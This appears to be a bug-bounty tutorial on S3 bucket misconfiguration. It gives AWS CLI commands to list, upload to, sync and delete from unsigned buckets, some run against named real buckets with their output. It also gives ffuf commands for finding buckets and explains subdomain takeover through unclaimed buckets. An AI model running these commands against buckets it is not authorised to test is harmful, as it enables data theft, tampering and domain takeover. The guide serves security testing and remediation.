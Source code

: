 ```yaml
---
title: S3 Bucket
layout: post
categories: [Web-Vulnerabilities,S3]
tags: [Vulnerability,S3]
toc: true
published: true
---
```


# Simple Storage Service (S3)

| Content                             |
| ----------------------------------- |
| 📚 What is S3 Bucket                |
| 🤔 Why S3 Misconfiguration Happen ? |
| 💥 Exploitation                     |
| ⚔ Impact                            |
| 🔎 How To Find                      |
| 🛠 Tools                             |
| ⚙ Remediation                       |
| 📕 Referance                        |


## 📚 What is S3 Bucket

### What is AWS ?
**AWS** stands for **A**mazon **W**eb **S**ervices which is a secure cloud services platform, offering compute power, database storage, content delivery and other functionalities.

### What is Amazon S3 ?
Amazon **S3** (Simple Storage Service) is one of the popular and widely used storage services. Many companies are using **S3** buckets to store their assets such as user profile pictures, static resources, and anything as per their business logic and needs.

Files can be served either privately (via signed URLs) or publicly via an appropriately configured ACL (Access Control List) or ACP (Access Control Policy).

Like:
```ruby
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
```

---
## 🤔 Why S3 Misconfiguration Happen ?

### S3 Attacks

We will go through the specifics of each level and identify the dangerous cases where weak ACLs can create vulnerable configurations impacting the owner of the S3-bucket and/or through third party assets used by a lot of companies.

However, if the buckets are not configured properly, or are unclaimed, an attacker can probably perform some mischievous actions such as
1. **S3 Bucket Takeover**
1. **S3 Content Takeover**




---
## 💥 Exploitation 

### Requirements

To test for the access controls of the S3 Bucket, the best way is to use, AWS CLI and default commands.
1. **Install AWS CLI**
```ruby
pip install awscli
```
2. **check whether it is perfectly installed or not.**
```ruby
aws --version
```
3. **then you can make aws account and Provide AWS ACCESS Key & Secret to configure AWS CLI.**
**You can watch this [**video**](https://www.youtube.com/watch?v=HCl2_FzMxAg) Steps**

4. **Add nd Provide AWS ACCESS Key & Secret to configure AWS CLI**
```ruby
aws configure
```

### Basic tests

1. Checking for S3 Open Buckets & Finding bucket name
1. Using **AWS CLI** to Check S3 Bucket Access Controls
1. Increasing Impact by looking at all C.R.U.D (**Create**, **Read**, **Update** & **Delete**) actions.

**Listing files**

```ruby
aws s3 ls s3://targetbucket --no-sign-request --region insert-region-here
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```
**Move a file into the bucket**

```ruby
aws s3 cp local.txt s3://some-bucket/remote.txt --acl authenticated-read
aws s3 cp login.html s3://$bucketName --grants read=uri=http://acs.amazonaws.com/groups/global/AllUsers

aws s3 mv test.txt s3://hackerone.marketing
FAIL : "move failed: ./test.txt to s3://hackerone.marketing/test.txt A client error (AccessDenied) occurred when calling the PutObject operation: Access Denied."

aws s3 mv test.txt s3://hackerone.files
SUCCESS : "move: ./test.txt to s3://hackerone.files/test.txt"
```
**Download every things**

```ruby
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2
```
**Delete Files**

```ruby
aws s3 rm s3://[bucketname]/test-file.svg --no-sign-request
```

### Subdomain takeover - S3 bucket
S3 buckets are spawned out of storage requirement and are bound to a particular domain. Sometimes these buckets are not deleted after they have served their purpose which may escalate to a complete take over of a subdomain of the host. Consider the following example:

An S3 bucket may be created and its URL (http://storage.example.com.s3-website.ap-south-1.amazonaws.com) may be bound to a subdomain(Eg: “https://storage.example.net”.) belonging to the organization to obfuscate the AWS S3 URL. This is done by adding an alternate domain name(CNAMEs).

Later when this bucket is deleted from AWS S3, but the CNAMEs record in the Route53 is not removed, an attacker may create an AWS S3 bucket with the same name and the malicious contents of this bucket will be served on the victim’s domain(eg: storage.example.net), Hence taking over the subdomain.
 
**Identifying this Vulnerability**
The first step in identifying this vulnerability is looking for an error page which has the message “404 Not Found” and has the message “NosuchBucket”.

Or from [**EdOverflow**](https://github.com/EdOverflow/can-i-take-over-xyz)

| AWS/S3 | Vulnerable | ```The specified bucket does not exist``` |

![](https://i.imgur.com/9BiWz1x.png)



---
## ⚔ Impact

**Possible vulnerabilities:**
1. **Reflected XSS.**
1. **Stored XSS / asset control.** HTML-file.
1. **Denial of server.**
1. **Information disclosure.** If we can list objects we might find sensitive information.
1. **RCE.** If the bucket contains modifiable executables this can result in Remote Code Execution (RCE) depending on where the executables are being used and if/by whom they are being downloaded.

---
## 🔎 How To Find

### FFUF

```ruby=
ffuf -u http://FUZZ.s3.amazonaws.com -w  subdomains.txt | anew -a s3_buckets_subs.txt
ffuf -u http://s3.amazonaws.com/FUZZ -w  subdomains.txt | anew -a s3_buckets_dirs.txt
```

You can put this in your recon after get subdomains steps or just using one of Tools Below 

Follow Twitter #BugBountyTips hashtag to get new tricks to find s3 bucket during your Recon or by using Automated Tools like: 

**Lazy S3**,**S3Scanner**,**S3 Bucket Finder** & **Mass3**

---
## 🛠 Tools

[**Lazy S3:**](https://github.com/nahamsec/lazys3) A Ruby script to bruteforce for AWS s3 buckets using different permutations.
[**Mass3:**](https://github.com/smiegles/mass3)Quickly enumerate through a pre-compiled list of AWS S3 buckets using DNS instead of HTTP with a list of DNS resolvers and multi-threading.
[**S3 Bucket Finder:**](https://github.com/gwen001/s3-buckets-finder) PHP tool to brute force Amazon S3 bucket
[**S3Scanner:**](https://github.com/sa7mon/S3Scanner) A tool to find open S3 buckets and dump their contents


---
## ⚙ Remediation

Make sure all the Amazon S3 buckets you are using are marked as private.


---
## 📕 Referance

[**PayloadsAllTheThings**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/AWS%20Amazon%20Bucket%20S3)
[**janijay007**](https://medium.com/@janijay007/s3-bucket-misconfiguration-from-basics-to-pawn-6893776d1007)
[**detectify**](https://labs.detectify.com/2017/07/13/a-deep-dive-into-aws-s3-access-controls-taking-full-control-over-your-assets/?utm_source=blog&utm_campaign=s3_buckets)
[**pravinponnusamy**](https://pravinponnusamy.medium.com/bug-hunting-aws-s3-bucket-public-read-write-permissions-enabled-477cc246e60e)
[**Harsh Bothra**](https://infosecwriteups.com/s3-bucket-misconfigured-access-controls-to-critical-vulnerability-6b535e3df9a5)
[**EdOverflow**](https://github.com/EdOverflow/can-i-take-over-xyz/issues/36)
